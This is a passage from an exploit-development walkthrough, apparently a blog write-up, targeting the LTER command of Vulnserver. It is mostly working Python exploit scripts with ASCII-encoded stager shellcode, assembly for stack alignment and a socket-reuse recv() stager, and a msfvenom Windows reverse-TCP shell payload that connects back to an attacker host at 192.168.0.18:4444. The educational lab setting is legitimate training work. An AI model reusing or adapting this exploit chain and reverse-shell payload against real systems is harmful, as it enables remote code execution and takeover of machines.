    b'\x05\x75\x40\x48\x48' +   # ADD EAX,48484075
    b'\x05\x76\x40\x48\x48' +   # ADD EAX,48484076
    b'\x50' +                   # PUSH EAX
    b'C' * (4000 - 3554 - 4)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And check it:

image::long-jump-success1.gif[Long jump success]

Fantastic! Now we have enough room for encoding something really useful.

We will use the stager shellcode used to exploit the `KSTET` command, with
only a slight modification on the `ESP` alignment (2 bytes instead of 64). More
information of that stager on the link:../vulnserver-kstet/[KSTET writeup]:

.shellcode.asm
[source,asm]
----
sub esp,0x2		        ; Align ESP 2 bytes above
xor edi,edi             ; Zero out EDI
socket_loop:            ; Our bruteforce loop starts here
xor ebx,ebx             ; Zero out EBX
push ebx                ; Push 'flags' parameter = 0
add bh,0x4              ; Make EBX = 00000400 = 1024 bytes
push ebx                ; Push `len` parameter = 1024 bytes
mov ebx,esp		        ; Move the current pointer of ESP into EBX
add ebx,0x64            ; Point EBX the original ESP to make it the pointer on
                        ; where our stage-2 payload will be received
push ebx                ; Push `*buf` parameter = Pointer to ESP+0x64
inc edi                 ; Make EDI = EDI + 1
push edi                ; Push socket handle `s` parameter = EDI = EDI + 1
mov eax,0x40252C90      ; We need to make EAX = 0040252C but we can't inject
                        ; null bytes. So 40252C90 is shift-left padded with 90
shr eax,0x8             ; Remove the '90' byte of EAX by shifting right and
                        ; This makes EAX = 0040252C
call eax                ; Call recv()
test eax,eax            ; Check if our recv() call was successfully made
jnz socket_loop         ; If recv() failed, jump back to the socket loop where
                        ; EDI will be increased to check the next socket handle
----

We can compile that using `NASM`:

[source,bash]
----
$ nasm -f elf32 -o shellcode.o shellcode.asm
----

And get the expected shellcode with:

[source,bash]
----
$ for i in $(objdump -d shellcode.o -M intel |grep "^ " |cut -f2); do echo -n '\x'$i; done; echo
\x83\xec\x02\x31\xff\x31\xdb\x53\x80\xc7\x04\x53\x89\xe3\x83\xc3\x64\x53\x47
\x57\xb8\x90\x2c\x25\x40\xc1\xe8\x08\xff\xd0\x85\xc0\x75\xe3
----

Now, let's encode that with our tool:

[source,bash]
----
$ python3 ~/Automatic-ASCII-Shellcode-Subtraction-Encoder/encoder.py -m -p -s
'\x83\xec\x02\x31\xff\x31\xdb\x53\x80\xc7\x04\x53\x89\xe3\x83\xc3\x64\x53\x47
\x57\xb8\x90\x2c\x25\x40\xc1\xe8\x08\xff\xd0\x85\xc0\x75\xe3' -v STAGER
...
Shellcode length: 234
Shellcode Output:

STAGER  = b'\x25\x50\x50\x4a\x50\x25\x2a\x2a\x30\x2a\x2d\x2b\x6f\x27\x21\x2d'
STAGER += b'\x30\x37\x26\x2b\x2d\x30\x76\x21\x23\x50\x25\x50\x50\x4a\x50\x25'
STAGER += b'\x2a\x2a\x30\x2a\x2d\x7f\x3e\x26\x7a\x2d\x3c\x7e\x22\x60\x2d\x46'
STAGER += b'\x72\x31\x65\x50\x25\x50\x50\x4a\x50\x25\x2a\x2a\x30\x2a\x2d\x4f'
STAGER += b'\x6f\x6f\x61\x2d\x39\x6f\x77\x62\x2d\x38\x60\x30\x33\x50\x25\x50'
STAGER += b'\x50\x4a\x50\x25\x2a\x2a\x30\x2a\x2d\x7b\x75\x33\x37\x2d\x67\x7e'
STAGER += b'\x7b\x27\x2d\x66\x7b\x24\x7c\x50\x25\x50\x50\x4a\x50\x25\x2a\x2a'
STAGER += b'\x30\x2a\x2d\x2d\x28\x2a\x62\x2d\x3e\x22\x3d\x22\x2d\x31\x62\x51'
STAGER += b'\x24\x50\x25\x50\x50\x4a\x50\x25\x2a\x2a\x30\x2a\x2d\x7f\x76\x24'
STAGER += b'\x7f\x2d\x79\x7f\x35\x3e\x2d\x7f\x26\x22\x7f\x50\x25\x50\x50\x4a'
STAGER += b'\x50\x25\x2a\x2a\x30\x2a\x2d\x24\x67\x23\x23\x2d\x30\x68\x71\x28'
STAGER += b'\x2d\x2c\x69\x66\x61\x50\x25\x50\x50\x4a\x50\x25\x2a\x2a\x30\x2a'
STAGER += b'\x2d\x33\x30\x7a\x5d\x2d\x70\x6c\x68\x26\x2d\x5e\x31\x42\x28\x50'
STAGER += b'\x25\x50\x50\x4a\x50\x25\x2a\x2a\x30\x2a\x2d\x2b\x2a\x2a\x22\x2d'
STAGER += b'\x21\x6e\x6d\x32\x2d\x31\x7b\x65\x7a\x50'
----

We need to align our `ESP` pointer again:

[source,asm]
----
push esp            ; Push the current value of ESP on the stack
pop eax             ; Pop it to EAX register
sub al,0x0b01       ; Substract 0x0b01 bytes from EAX
push eax            ; Push the resultant value of EAX to the stack
pop esp             ; Pop it back the ESP
----

And update our exploit with that. Remember add a padding in the first
bytes so our long jump lands there:

[source,python]
----
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

LONG_JUMP  = b'\x25\x50\x50\x4a\x50\x25\x2a\x2a\x30\x2a\x2d\x62\x21\x22\x23\x2d'
LONG_JUMP += b'\x38\x25\x2b\x28\x2d\x67\x28\x22\x24\x50\x25\x50\x50\x4a\x50\x25'
LONG_JUMP += b'\x2a\x2a\x30\x2a\x2d\x42\x7f\x29\x73\x2d\x7f\x25\x69\x2d\x2d\x56'
LONG_JUMP += b'\x2d\x7b\x5f\x50'

STAGER  = b'\x25\x50\x50\x4a\x50\x25\x2a\x2a\x30\x2a\x2d\x2b\x6f\x27\x21\x2d'
STAGER += b'\x30\x37\x26\x2b\x2d\x30\x76\x21\x23\x50\x25\x50\x50\x4a\x50\x25'
STAGER += b'\x2a\x2a\x30\x2a\x2d\x7f\x3e\x26\x7a\x2d\x3c\x7e\x22\x60\x2d\x46'
STAGER += b'\x72\x31\x65\x50\x25\x50\x50\x4a\x50\x25\x2a\x2a\x30\x2a\x2d\x4f'
STAGER += b'\x6f\x6f\x61\x2d\x39\x6f\x77\x62\x2d\x38\x60\x30\x33\x50\x25\x50'
STAGER += b'\x50\x4a\x50\x25\x2a\x2a\x30\x2a\x2d\x7b\x75\x33\x37\x2d\x67\x7e'
STAGER += b'\x7b\x27\x2d\x66\x7b\x24\x7c\x50\x25\x50\x50\x4a\x50\x25\x2a\x2a'
STAGER += b'\x30\x2a\x2d\x2d\x28\x2a\x62\x2d\x3e\x22\x3d\x22\x2d\x31\x62\x51'
STAGER += b'\x24\x50\x25\x50\x50\x4a\x50\x25\x2a\x2a\x30\x2a\x2d\x7f\x76\x24'
STAGER += b'\x7f\x2d\x79\x7f\x35\x3e\x2d\x7f\x26\x22\x7f\x50\x25\x50\x50\x4a'
STAGER += b'\x50\x25\x2a\x2a\x30\x2a\x2d\x24\x67\x23\x23\x2d\x30\x68\x71\x28'
STAGER += b'\x2d\x2c\x69\x66\x61\x50\x25\x50\x50\x4a\x50\x25\x2a\x2a\x30\x2a'
STAGER += b'\x2d\x33\x30\x7a\x5d\x2d\x70\x6c\x68\x26\x2d\x5e\x31\x42\x28\x50'
STAGER += b'\x25\x50\x50\x4a\x50\x25\x2a\x2a\x30\x2a\x2d\x2b\x2a\x2a\x22\x2d'
STAGER += b'\x21\x6e\x6d\x32\x2d\x31\x7b\x65\x7a\x50'

PAYLOAD = (
    b'LTER .' +
    b'A' * 16 +
    b'\x54' +               # PUSH ESP
    b'\x58' +               # POP EAX
    b'\x66\x2d\x01\x0b' +   # SUB AX,0x0b01
    b'\x50' +               # PUSH EAX
    b'\x5c' +               # POP ESP
    STAGER +
    b'A' * (3554 - 4 - 79 - 16 - 8 - len(STAGER)) +
    # Align stack for our long jump
    b'\x54' +           # PUSH ESP
    b'\x58' +           # POP EAX
    b'\x2c\x30' +       # SUB AL,30
    b'\x50' +           # PUSH EAX
    b'\x5c' +           # POP ESP
    LONG_JUMP +
    b'A' * (79 - 6 - len(LONG_JUMP)) +   # Fill the rest of our buffer with A
    # JNZ SHORT +0x10: Will jmp if ZF is 1
    b'\x75\x08' +
    # JZ SHORT +0x6: If the previous jump didn't happen (ZF is 0), jump!
    b'\x74\x06' +
    # 6250172B    5F                          POP EDI
    # 6250172C    5D                          POP EBP
    # 6250172D    C3                          RETN
    struct.pack('<L', 0x6250172B) +
    b'C' * 2 +
    # Align stack pointer
    b'\x54' +                   # PUSH ESP
    b'\x58' +                   # POP EAX
    b'\x66\x05\x53\x14' +       # ADD AX,0x1453
    b'\x50' +                   # PUSH EAX
    b'\x5c' +                   # POP ESP
    # Make EAX = '909080eb'
    b'\x25\x50\x50\x4A\x50' +   # AND EAX,504A5050
    b'\x25\x2A\x2A\x30\x2A' +   # AND EAX,2A302A2A
    b'\x05\x75\x40\x48\x48' +   # ADD EAX,48484075
    b'\x05\x76\x40\x48\x48' +   # ADD EAX,48484076
    b'\x50' +                   # PUSH EAX
    b'C' * (4000 - 3554 - 4)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
    # This will trigger our stager
    fd.recv(1024)
----

And check it:

image::stager2.gif[Stager success]

Weeeh! Now, to finish, we can create our shellcode and inserted on our side
channel. As we control now the `recv()` call, we are not limited by the
bad chars now! Let's do that:

[source,bash]
----
$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.18 LPORT=4444 EXITFUNC=none -f python -v SHELL
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of python file: 1660 bytes
SHELL =  b""
SHELL += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64"
SHELL += b"\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28"
SHELL += b"\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c"
SHELL += b"\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52"
SHELL += b"\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
SHELL += b"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49"
SHELL += b"\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01"
SHELL += b"\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75"
SHELL += b"\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b"
SHELL += b"\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
SHELL += b"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a"
SHELL += b"\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68\x77"
SHELL += b"\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8"
SHELL += b"\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b"
SHELL += b"\x00\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68"
SHELL += b"\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x05\x68\xc0\xa8"
SHELL += b"\x00\x12\x68\x02\x00\x11\x5c\x89\xe6\x6a\x10\x56"
SHELL += b"\x57\x68\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0c"
SHELL += b"\xff\x4e\x08\x75\xec\x68\xf0\xb5\xa2\x56\xff\xd5"
SHELL += b"\x68\x63\x6d\x64\x00\x89\xe3\x57\x57\x57\x31\xf6"
SHELL += b"\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01"
SHELL += b"\x01\x8d\x44\x24\x10\xc6\x00\x44\x54\x50\x56\x56"
SHELL += b"\x56\x46\x56\x4e\x56\x56\x53\x56\x68\x79\xcc\x3f"
SHELL += b"\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff\x30\x68\x08"
SHELL += b"\x87\x1d\x60\xff\xd5\xbb\xaa\xc5\xe2\x5d\x68\xa6"
SHELL += b"\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0"
SHELL += b"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5"
----

Update our exploit:

[source,python]
----
import socket
import struct
import time

HOST = '192.168.0.20'
PORT = 9999

LONG_JUMP  = b'\x25\x50\x50\x4a\x50\x25\x2a\x2a\x30\x2a\x2d\x62\x21\x22\x23\x2d'
LONG_JUMP += b'\x38\x25\x2b\x28\x2d\x67\x28\x22\x24\x50\x25\x50\x50\x4a\x50\x25'
LONG_JUMP += b'\x2a\x2a\x30\x2a\x2d\x42\x7f\x29\x73\x2d\x7f\x25\x69\x2d\x2d\x56'
LONG_JUMP += b'\x2d\x7b\x5f\x50'

STAGER  = b'\x25\x50\x50\x4a\x50\x25\x2a\x2a\x30\x2a\x2d\x2b\x6f\x27\x21\x2d'
STAGER += b'\x30\x37\x26\x2b\x2d\x30\x76\x21\x23\x50\x25\x50\x50\x4a\x50\x25'
STAGER += b'\x2a\x2a\x30\x2a\x2d\x7f\x3e\x26\x7a\x2d\x3c\x7e\x22\x60\x2d\x46'
STAGER += b'\x72\x31\x65\x50\x25\x50\x50\x4a\x50\x25\x2a\x2a\x30\x2a\x2d\x4f'
STAGER += b'\x6f\x6f\x61\x2d\x39\x6f\x77\x62\x2d\x38\x60\x30\x33\x50\x25\x50'
STAGER += b'\x50\x4a\x50\x25\x2a\x2a\x30\x2a\x2d\x7b\x75\x33\x37\x2d\x67\x7e'
STAGER += b'\x7b\x27\x2d\x66\x7b\x24\x7c\x50\x25\x50\x50\x4a\x50\x25\x2a\x2a'
STAGER += b'\x30\x2a\x2d\x2d\x28\x2a\x62\x2d\x3e\x22\x3d\x22\x2d\x31\x62\x51'
STAGER += b'\x24\x50\x25\x50\x50\x4a\x50\x25\x2a\x2a\x30\x2a\x2d\x7f\x76\x24'
STAGER += b'\x7f\x2d\x79\x7f\x35\x3e\x2d\x7f\x26\x22\x7f\x50\x25\x50\x50\x4a'
STAGER += b'\x50\x25\x2a\x2a\x30\x2a\x2d\x24\x67\x23\x23\x2d\x30\x68\x71\x28'
STAGER += b'\x2d\x2c\x69\x66\x61\x50\x25\x50\x50\x4a\x50\x25\x2a\x2a\x30\x2a'
STAGER += b'\x2d\x33\x30\x7a\x5d\x2d\x70\x6c\x68\x26\x2d\x5e\x31\x42\x28\x50'
STAGER += b'\x25\x50\x50\x4a\x50\x25\x2a\x2a\x30\x2a\x2d\x2b\x2a\x2a\x22\x2d'
STAGER += b'\x21\x6e\x6d\x32\x2d\x31\x7b\x65\x7a\x50'

SHELL =  b""
SHELL += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64"
SHELL += b"\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28"
SHELL += b"\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c"
SHELL += b"\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52"
SHELL += b"\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
SHELL += b"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49"
SHELL += b"\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01"
SHELL += b"\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75"
SHELL += b"\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b"
SHELL += b"\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
SHELL += b"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a"
SHELL += b"\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68\x77"
SHELL += b"\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8"
SHELL += b"\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b"
SHELL += b"\x00\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68"
SHELL += b"\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x05\x68\xc0\xa8"
SHELL += b"\x00\x12\x68\x02\x00\x11\x5c\x89\xe6\x6a\x10\x56"
SHELL += b"\x57\x68\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0c"
SHELL += b"\xff\x4e\x08\x75\xec\x68\xf0\xb5\xa2\x56\xff\xd5"
SHELL += b"\x68\x63\x6d\x64\x00\x89\xe3\x57\x57\x57\x31\xf6"
SHELL += b"\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01"
SHELL += b"\x01\x8d\x44\x24\x10\xc6\x00\x44\x54\x50\x56\x56"
SHELL += b"\x56\x46\x56\x4e\x56\x56\x53\x56\x68\x79\xcc\x3f"
SHELL += b"\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff\x30\x68\x08"
SHELL += b"\x87\x1d\x60\xff\xd5\xbb\xaa\xc5\xe2\x5d\x68\xa6"
SHELL += b"\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0"
SHELL += b"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5"

# Create STAGE2 with the shellcode and pad the rest of the
# 1024 buffer with NOPs
STAGE2 = SHELL + b'\x90' * (1024 - len(SHELL))

PAYLOAD = (
    b'LTER .' +
    b'A' * 16 +
    b'\x54' +               # PUSH ESP
    b'\x58' +               # POP EAX
    b'\x66\x2d\x01\x0b' +   # SUB AX,0x0b01
    b'\x50' +               # PUSH EAX
    b'\x5c' +               # POP ESP
    STAGER +
    b'A' * (3554 - 4 - 79 - 16 - 8 - len(STAGER)) +
    # Align stack for our long jump
    b'\x54' +           # PUSH ESP
    b'\x58' +           # POP EAX
    b'\x2c\x30' +       # SUB AL,30
    b'\x50' +           # PUSH EAX
    b'\x5c' +           # POP ESP
    LONG_JUMP +
    b'A' * (79 - 6 - len(LONG_JUMP)) +   # Fill the rest of our buffer with A
    # JNZ SHORT +0x10: Will jmp if ZF is 1
    b'\x75\x08' +
    # JZ SHORT +0x6: If the previous jump didn't happen (ZF is 0), jump!
    b'\x74\x06' +
    # 6250172B    5F                          POP EDI
    # 6250172C    5D                          POP EBP
    # 6250172D    C3                          RETN
    struct.pack('<L', 0x6250172B) +
    b'C' * 2 +
    # Align stack pointer
    b'\x54' +                   # PUSH ESP
    b'\x58' +                   # POP EAX
    b'\x66\x05\x53\x14' +       # ADD AX,0x1453
    b'\x50' +                   # PUSH EAX
    b'\x5c' +                   # POP ESP
    # Make EAX = '909080eb'
    b'\x25\x50\x50\x4A\x50' +   # AND EAX,504A5050
    b'\x25\x2A\x2A\x30\x2A' +   # AND EAX,2A302A2A
    b'\x05\x75\x40\x48\x48' +   # ADD EAX,48484075
    b'\x05\x76\x40\x48\x48' +   # ADD EAX,48484076
    b'\x50' +                   # PUSH EAX
    b'C' * (4000 - 3554 - 4)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
    # This will trigger our stager
    fd.recv(1024)
    time.sleep(3)
    fd.sendall(STAGE2)
----

And check if we got a shell:

image::success.gif[Success]

Wonderful! It was easy, isn't it? No, it was not, but we learned a lot!

== Conclusion

Dealing with bad chars when exploiting is very common. Commonly, encoders
from known tools like `msfvemon` will help us to overcome that restrictions
but there are some picky applications that will makes us drive the extra mile,
but it's worth it.
